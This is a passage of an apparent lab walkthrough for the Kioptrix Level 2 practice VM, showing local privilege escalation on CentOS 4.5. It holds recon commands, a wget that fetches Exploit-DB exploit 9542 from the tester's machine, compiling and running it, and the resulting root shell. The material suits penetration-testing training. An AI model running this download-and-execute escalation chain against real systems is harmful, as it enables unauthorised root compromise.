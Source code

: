 ```bash
bash-3.00$ hostname 
kioptrix.level2
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ cat /proc/version 
Linux version 2.6.9-55.EL (mockbuild@builder6.centos.org) (gcc version 3.4.6 20060404 (Red Hat 3.4.6-8)) #1 Wed May 2 13:52:16 EDT 2007
bash-3.00$ cat /etc/*-release
CentOS release 4.5 (Final)
```

IT can be seen that system is running on CentOS 4.5 (Linux Version 2.6.9-55.EL). So, we can look for exploits associated with this.

The first link when we google for *"CentOS 4.5 exploit"* leads us to this [exploit](https://www.exploit-db.com/exploits/9542). We can download it on our machine and then send it to the target machine using a python server and `wget`. And run it as per the steps mentioned in the exploit itself.

```bash
bash-3.00$ wget http://192.168.0.164:8000/9542.c
--04:12:24--  http://192.168.0.164:8000/9542.c
           => `9542.c'
Connecting to 192.168.0.164:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/x-csrc]

100%[====================================>] 2,643         --.--K/s             

04:12:24 (39.38 MB/s) - `9542.c' saved [2643/2643]

bash-3.00$ gcc 9542.c -o exploit
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ./exploit 
sh-3.00# whoami
root
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00# cd /root
sh-3.00# ls -la
total 144
drwxr-x---   2 root root  4096 Oct 12  2009 .
drwxr-xr-x  23 root root  4096 Apr 29 03:09 ..
-rw-r--r--   1 root root  1168 Oct  7  2009 anaconda-ks.cfg
-rw-r--r--   1 root root   215 Feb  9  2012 .bash_history
-rw-r--r--   1 root root    24 Feb 21  2005 .bash_logout
-rw-r--r--   1 root root   191 Feb 21  2005 .bash_profile
-rw-r--r--   1 root root   176 Feb 21  2005 .bashrc
-rw-r--r--   1 root root   100 Feb 21  2005 .cshrc
-rw-r--r--   1 root root 53255 Oct  7  2009 install.log
-rw-r--r--   1 root root  3842 Oct  7  2009 install.log.syslog
-rw-------   1 root root  1509 Oct  8  2009 .mysql_history
-rw-r--r--   1 root root   102 Feb 21  2005 .tcshrc
sh-3.00# 
```
